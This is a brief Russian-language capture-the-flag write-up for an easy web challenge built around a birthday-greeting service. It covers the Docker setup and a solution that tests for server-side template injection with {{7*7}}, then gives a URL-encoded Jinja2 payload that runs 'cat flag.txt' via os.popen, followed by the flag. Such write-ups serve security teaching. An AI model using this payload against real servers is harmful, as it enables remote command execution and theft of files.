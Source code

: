 # Happy birthdays TTI

## Описание

**Easy**

Автор написал простенький сервис для поздравления с днём рождения, но безопасность сильно страдает

https://web3.krductf.ru/

Автор: **nik_kir1**

## Публикация

Поднять докер 
docker build -t name .
docker run -d -p 5000:5000 name

## Решение
проверить {{7*7}}

нагрузка:
%7B%7B+config.__class__.__init__.__globals__%5B%27os%27%5D.popen(%27cat+flag.txt%27).read()+%7D%7D


## Ответ

krdu{SSTI_vulnerability_exploited!}